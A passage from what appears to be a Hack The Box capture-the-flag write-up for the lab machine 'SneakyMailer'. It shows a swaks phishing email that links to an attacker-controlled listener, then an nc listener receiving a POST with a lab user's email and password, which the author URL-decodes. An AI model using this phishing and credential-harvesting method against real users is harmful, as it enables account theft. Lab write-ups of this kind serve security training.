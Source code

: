 ```shell
<-  354 End data with <CR><LF>.<CR><LF>
 -> Date: Tue, 01 Dec 2020 21:54:22 +0530
 -> To: tigernixon@sneakymailer.htb
 -> From: cold@fusionsecurity.cfx
 -> Subject: Anything
 -> Message-Id: <20201201215422.006428@cfx>
 -> X-Mailer: swaks v20190914.0 jetmore.org/john/code/swaks/
 ->
 -> Click on http://10.10.14.3:8040
 ->
 ->
 [..SNIP..]
 <-  250 2.0.0 Ok: queued as 51784246DE
 -> QUIT
<-  221 2.0.0 Bye
=== Connection closed with remote host.
```

Call-back on nc listener:

```shell
cfx:  ~/Documents/htb/sneakymailer
→ nc -lvnp 8040
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::8040
Ncat: Listening on 0.0.0.0:8040
Ncat: Connection from 10.10.10.197.
Ncat: Connection from 10.10.10.197:54932.
POST / HTTP/1.1
Host: 10.10.14.3:8040
User-Agent: python-requests/2.23.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Length: 185
Content-Type: application/x-www-form-urlencoded

firstName=Paul&lastName=Byrd&email=paulbyrd%40sneakymailer.htb&password=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt&rpassword=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt
```

After url decoding the data we have the following:

```console
firstName=Paul&lastName=Byrd&email=paulbyrd%40sneakymailer.htb&password=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt&rpassword=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt

firstName=Paul
lastName=Byrd
email=paulbyrd@sneakymailer.htb
password=^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht
rpassword=^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht
```
